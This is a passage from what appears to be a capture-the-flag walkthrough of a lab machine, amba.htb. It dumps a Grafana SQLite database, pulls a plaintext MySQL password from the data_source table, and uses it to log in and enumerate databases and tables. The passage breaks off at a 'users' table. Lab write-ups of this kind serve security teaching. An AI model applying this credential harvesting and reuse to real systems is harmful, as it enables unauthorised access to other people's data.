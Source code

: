 ```sql
BEGIN TRANSACTION;
CREATE TABLE `data_source` (
`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL
, `org_id` INTEGER NOT NULL
, `version` INTEGER NOT NULL
, `type` TEXT NOT NULL
, `name` TEXT NOT NULL
, `access` TEXT NOT NULL
, `url` TEXT NOT NULL
, `password` TEXT NULL
, `user` TEXT NULL
, `database` TEXT NULL
, `basic_auth` INTEGER NOT NULL
, `basic_auth_user` TEXT NULL
, `basic_auth_password` TEXT NULL
, `is_default` INTEGER NOT NULL
, `json_data` TEXT NULL
, `created` DATETIME NOT NULL
, `updated` DATETIME NOT NULL
, `with_credentials` INTEGER NOT NULL DEFAULT 0, `secure_json_data` TEXT NULL, `read_only` INTEGER NULL, `uid` TEXT NOT NULL DEFAULT 0);
INSERT INTO data_source VALUES(2,1,1,'mysql','mysql.yaml','proxy','','dontStandSoCloseToMe63221!','grafana','grafana',0,'','',0,X'7b7d','2022-09-01 22:43:03','2022-10-24 14:24:03',0,'{}',1,'uKewFgM4z');
COMMIT;
```

After studying the database we find the password for MySQL, located on port 3306. Let's connect:

```sql
> mysql --host amba.htb -u grafana -p
Enter password: dontStandSoCloseToMe63221!

Welcome to the MariaDB monitor. Commands end with ; or \g.
Your MySQL connection id is 62
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input 

MySQL [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.137 sec)

MySQL [(none)]> use whackywidget
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
```